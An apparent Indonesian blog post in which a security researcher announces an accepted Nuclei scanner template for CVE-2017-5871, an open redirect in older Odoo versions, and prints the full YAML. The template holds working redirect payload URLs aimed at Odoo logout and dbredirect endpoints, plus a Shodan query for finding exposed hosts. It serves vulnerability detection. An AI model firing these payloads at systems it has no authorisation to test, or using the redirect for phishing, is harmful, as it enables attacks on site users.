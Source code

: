 ```yaml
---
title: Odoo LEQ 8.0-20160726 and 9.0 Open Redirect
excerpt: 01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.
date: 2024-10-01 01:37:00
tags: [cve]
categories:
  - [1337rokudenashi]
index_img: https://images.hdqwalls.com/download/blue-archive-5k-ct-2880x1800.jpg
banner_img: https://images.hdqwalls.com/download/blue-archive-5k-ct-2880x1800.jpg
---
```


01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.

```yaml
id: CVE-2017-5871

info:
  name: Odoo <= 8.0-20160726 & 9.0 - Open Redirect
  author: 1337rokudenashi
  severity: medium
  description: |
    An Open Redirect vulnerability in Odoo versions <= 8.0-20160726 and 9.0. This issue allows an attacker to redirect users to untrusted sites via a crafted URL.
  impact: |
    Successful exploitation can redirect users to malicious sites, potentially leading to phishing attacks or information theft.
  remediation: |
    Update Odoo to the latest patched version provided by the vendor.
  reference:
    - https://sysdream.com/cve-2017-5871-odoo-url-redirection-to/
    - https://nvd.nist.gov/vuln/detail/CVE-2017-5871
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2017-5871
    cwe-id: CWE-601
    cpe: cpe:2.3:a:odoo:odoo:8.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    shodan-query: title:"Odoo"
    product: odoo
    vendor: odoo
  tags: cve2017,cve,odoo,redirect

http:
  - method: GET
    path:
      - "{{BaseURL}}/web/session/logout?redirect=https://oast.me"
      - "{{BaseURL}}/web/session/logout?redirect=https%3a%2f%2foast.me%2f"
      - "{{BaseURL}}/web/dbredirect?redirect=https%3a%2f%2foast.me%2f"

    stop-at-first-match: true
    matchers:
      - type: regex
        part: header
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)oast\.me.*$'
# digest: 4a0a00473045022020526a4a017f0ebf412281aa95a72bf7a4f658c9f0762e3d04f8e7777c27c3aa02210096b1d8f905d0add3542ab88bf2780fff501aecd56d8e99a7d7ddd25f44bcd9ae:922c64590222798bb761d5b6d8e72950
```

Ini adalah bentuk kontribusi saya sebagai Security Researcher. Odoo LEQ 8.0-20160726 and 9.0 Open Redirect [(1337rokudenashi)](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-5871.yaml)
